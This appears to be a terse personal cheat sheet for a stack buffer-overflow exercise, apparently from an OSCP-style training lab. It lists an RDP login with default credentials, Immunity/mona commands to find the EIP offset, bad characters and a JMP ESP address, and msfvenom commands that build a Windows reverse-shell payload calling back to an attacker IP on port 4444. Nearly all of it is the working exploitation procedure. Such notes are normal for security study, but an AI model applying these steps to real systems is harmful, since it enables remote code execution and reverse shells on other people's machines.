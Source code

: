 ```
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.83.194 /workarea  
```

```
!mona config -set workingfolder c:\mona\%p
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1500
!mona findmsp -distance 1500
EIP: 1306
#Update EIP to all scripts

!mona bytearray -b "\x00"

1. Send data with NULL
2. Take ESP OUT and put into COMPARE. 

## Don't forget extending the windows to right on BadChars. 
# !mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 000000

#python bytearray.py
# Send updated Removed Bad Char buffer to target
!mona bytearray -b "\x00\x8c\xae\xbe\xfb"

# Update Offset on Python
"\\x00\\x8c\\xae\\xbe\\xfb"

# Verify with new ESP on Immunity Debugger

!mona jmp -r esp -cpb "\x00\x8c\xae\xbe\xfb"
!mona bytearray -b "\x00"

JMP ESP: "\xaf\x11\x50\x62"

msfvenom -p windows/shell_reverse_tcp LHOST=10.6.20.231 LPORT=4444 EXITFUNC=thread -b "\x00\x8c\xae\xbe\xfb" -f py

!mona config -set workingfolder c:\mona\%p

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
!mona findmsp -distance 600!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
!mona jmp -r esp -cpb "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/9059079/119589298-85138c80-bda0-11eb-825d-862e4f241a10.png)

![image](https://user-images.githubusercontent.com/9059079/119571250-1d991500-bd7f-11eb-9cb0-ca9bd73dc2f7.png)
